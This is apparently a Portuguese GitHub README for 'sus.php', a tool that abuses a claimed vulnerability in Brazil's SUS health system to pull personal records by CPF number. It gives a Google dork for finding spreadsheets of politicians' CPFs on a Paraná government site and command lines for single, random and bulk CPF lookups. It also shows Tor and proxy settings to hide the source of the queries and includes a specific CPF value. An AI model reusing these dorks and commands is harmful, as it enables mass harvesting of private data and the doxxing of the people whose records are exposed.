 <h1>[-] Vulnerability Sending Sus</h1>

[-] Dork:
site:www1.tce.pr.gov.br cpf deputados/prefeitos ext:xls

<p>[-] Pesquisa CPF único     --> php sus.php --cpf 13326724691 -s resultado.txt</p>
<p>[-] Pesquisa CPF randômico --> php sus.php --cpf --dandom -s resultado.php</p>
<p>[-] Pesquisa CPF arquivo   --> php sus.php -o arquivo_cpf.txt -s resultado.php</p>
<p>[-] Pesquisa com proxy     --> php sus.php --cpf 13326724691 -s resultado.txt --proxy proxy:porta</p>
<p>php sus.php --cpf --random -s resultado.txt --proxy proxy:porta</p>
<p>php sus.php -o arquivo_cpf.txt -s resultado.txt --proxy proxy:porta</p>

<h3><p>[-] Formato proxy:</h3></p>
<p>--proxy localhost:8118</p>
<p>--proxy socks5://matheus@localhost:9050</p>
<p>--proxy http://admin:1234@172.16.0.90:8080</p>

<h3>[-] Depêndencias:</h3>
<p>#PHP Version         5.4.7</p>
<p>#php5-curl           LIB</p>
<p>#php5-cli            LIB</p>

<h3>[-] Contato:</h3>
<p>http://twitter.com/@MatheusTDashh</p>
<p><img width="650" height="400" src="http://i.imgur.com/fuNul5h.jpg"></p>
